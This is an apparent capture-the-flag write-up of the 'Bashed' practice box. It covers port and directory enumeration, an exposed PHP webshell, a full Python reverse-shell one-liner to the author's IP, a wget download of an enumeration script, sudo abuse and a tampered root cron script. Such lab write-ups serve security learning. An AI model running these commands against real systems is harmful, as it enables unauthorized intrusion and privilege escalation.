

# Writeup and notes for the Bashed box.

Okey so I ran an nmap scan on all ports first.

```shell
nmap -A -sS -p- -T4 -oN bashed_nmap.txt 10.10.10.68
```
The resulting output showed that port was running an http apache server.

```shell
Nmap scan report for 10.10.10.68
Host is up (0.046s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

I visited the webpage and saw the following page. It talks about a php webshell as a pen-testing tool. It mentions that it is also hosted somewhere on this site.



Next I tried to bruteforce directories using gobuster.

```shell
gobuster dir -u http://10.10.10.68 -w ~/Documents/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

I found the following directories.

```shell
===============================================================
2020/11/01 15:07:59 Starting gobuster
===============================================================
/images (Status: 301)
/js (Status: 301)
/css (Status: 301)
/uploads (Status: 301)
/dev (Status: 301)
/php (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
[ERROR] 2020/11/01 15:08:47 [!] parse http://10.10.10.68/error_log: net/url: invalid control character in URL
===============================================================
2020/11/01 15:08:59 Finished
===============================================================
```

I found the php-webshell on the /dev page. The shell only had limited capabilities so I tried to get a reverse shell on my machine. First I ran netcat to listin on incomming traffic on port 1235 via the following command:

```shell
nc -lvp 1235
```

Next I found the following reverse-shell [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.mdhttps://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) on github. I tried a few but the following python command seemed to work.

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
Next I used the following command to get a shell with more functionality.

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
Using this I was able to quickly find the userflag, next up was getting root. This took me longer than I wasnted to admit. First I wanted to do some enumeration on the system. I found LinEnum.sh to be a very usefull script for this. However I needed to get in on the machine first. Luckly I found dir that I was allowed to write files to. I hosted a simple python webserver on my own machine using the following command:

```shell
python3 -m http.server 8000
```
Next I was able to transfer the LinEnum.sh File over via wget. I changed the execute permission via chmod and was able to run the enumeration.

```shell
wget 10.10.14.25:8000/LinEnum.sh
chmod +x LinsEnum.sh
./LinEnsum.sh 
```
From the script the following stood out to me:

```shell
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
I was able to spawn a shell as scriptmanager using the following command:

```shell 
sudo -u scriptmanager /bin/bash
```

This gave me access to a special scripts directory. I was a script test.py that was writing a file test.txt. The test.txt had root permissions so there is probably a corn task that executes the script as root. If i deleted the .txt file I respanwed a minute later. I modified the [test.py](./test.py) file such that it would write root.txt to a file in the current directory and got root. A better way would be to spawn a shell via the test.py file as root but hey this worked. Not bad for my first solo box. 


